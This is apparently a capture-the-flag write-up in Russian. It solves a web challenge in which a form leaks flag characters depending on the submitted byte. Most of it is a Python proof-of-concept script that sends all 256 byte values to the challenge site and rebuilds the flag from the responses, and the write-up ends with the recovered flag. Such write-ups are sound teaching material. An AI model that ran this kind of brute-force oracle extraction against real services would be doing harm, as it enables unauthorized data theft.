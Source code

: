 # Kirovohrad (7.owaspctf.gq)

На главной странице форма, вводя в которую различные байты получаем каждый раз другой вывод.

Выглядит так, будто в зависимости от нашего ввода, выводятся определенные байты флага, остальные заменяются звездочкой.

`poc.py`:

```
#!/usr/bin/python2
# -*- coding: utf-8 -*-

from __future__ import print_function
import re
import requests
import urllib3
import sys

url = 'https://7.owaspctf.gq/'

def leak():
    flag = ['*'] * 33
    for _ in xrange(256):
        _ = chr(_)
        response = requests.post(url, data={'flag_check': _}, verify=False)
        result   = re.search(r'</form>([^<]+)', response.text)
        if not result:
            continue
        result   = list(result.group(1))
        for i, c in enumerate(result):
            if c != '*':
                flag[i] = c
        print('[{:02x}] {}'.format(ord(_), ''.join(flag)))

if __name__ == '__main__':
    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    leak()
```

`FLAG{To_infinity...and_beyond!}`
